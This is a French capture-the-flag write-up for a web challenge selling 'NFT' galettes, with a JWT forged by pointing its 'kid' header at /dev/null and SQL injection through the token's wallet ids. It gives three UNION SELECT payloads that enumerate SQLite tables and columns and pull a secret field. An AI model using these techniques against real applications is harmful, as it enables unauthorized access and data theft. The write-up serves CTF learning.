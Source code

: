 # La galette à tout prix

### Description

Vous connaissez les fameux NFT ? Au stade rennais on fait la même chose, mais avec des galettes ! La galette la plus prisée est la galette d'or de Monsieur Rennes Whisky !

En tant que grand fan, vous la voulez absolument, trouvez un moyen d'obtenir cette galette d'or pour frimer auprès de vos potes !

`https://la-galette-a-tout-prix.ctf.bzh:21000/`

### Solution

On arrive sur une page qui nous propose d'acheter des galettes saucisses NFT. Pour cela, on va donc se créer un compte sur l'application.

Une fois cela fait, on arrive sur une page nous proposant d'acheter des galettes :

![alt](images/1.png)

Si l'on achète un de ces items, on peut aller prévisualiser notre wallet :

![alt](images/2.png)

Si l'on essaye de comprendre comment l'application fonctionne, on remarque que notre wallet ainsi que notre compte sont référencés par un Json Web Token (JWT):

![alt](images/3.png)

Ici, on remarque rapidement le paramètre "kid", qui référence le fichier qui va permettre de signer le JWT.

Par ailleurs, dans le javascript côté client, on remarque un endpoint API qui va nous être utile :

```
setTimeout(function(){
    $.ajax({
        type: "GET",
        url: "/api/renew",
        dataType: "json"
    })
},36000)
```

Ici, on va réaliser un premier exploit qui va nous permettre de controler les valeurs du JWT. En effet, on peut modifier le "kid" pour le faire pointer vers "/dev/null" (autrement dit, rien) et de faire resigner ce token avec le contenu de "/dev/null", ce qui nous permettra ensuite d'injecter ce que l'on veut dedans :

![alt](images/4.png)

On controle maintenant ce qui est passé dans le JWT !

On remarque que dans le wallet (du jwt), des ids sont passés. Ici, on peut passer l'id "0" qui référence la galette d'or, mais cela ne servira pas à grand chose car nous n'allons pas obtenir la phrase secrète qui prouve qu'elle est à nous.

Après réflexion, on peut penser à une injection SQL dans les ids du wallet. Pour cela, on va tester une simple injection pour énumérer le nombre de colonnes sélectionnées par l'application en backend :

![alt](images/5.png)

![alt](images/6.png)

Cela nous apprend deux choses :
- Il y a effectivement une injection SQL
- Le backend sélectionne deux colonnes

On a donc notre exploit chain :
- Aller chercher le nom des tables
- Aller chercher le nom des colonnes d'une table en particulière
- Récupérer notre fameuse phrase secrète

Après un peu d'énumération (et d'erreur 500), on arrive à récupérer la technologie utilisée pour la base de données, c'est du sqlite.

On va donc injecter cette payload pour récupérer le nom de toutes les tables :
```
{
  "username": "test",
  "wallet": [
    "1 UNION SELECT name,name FROM sqlite_master;--"
  ],
  "kid": "/dev/null"
}
```

![alt](images/7.png)

La table qui nous intéresse est la table "précommande", il va donc falloir aller énumérer ses colonnes pour ensuite extraire ce que l'on souhaite. Pour cela, nous allons utiliser la payload suivante :

```
{
  "username": "test",
  "wallet": [
    "1 UNION SELECT name,name FROM PRAGMA_TABLE_INFO('precommande');--"
  ],
  "kid": "/dev/null"
}
```

![alt](images/8.png)

Dernière étape, aller chercher la valeur de "personal_message", on utilise la payload suivante :

```
{
  "username": "test",
  "wallet": [
    "1 UNION SELECT personal_message,personal_message FROM precommande;--"
  ],
  "kid": "/dev/null"
}
```

![alt](images/9.png)

### Flag

BZHCTF{u_st34l_th1s_b34ut1ful_g4l3tt3_s4uc1ss3!!}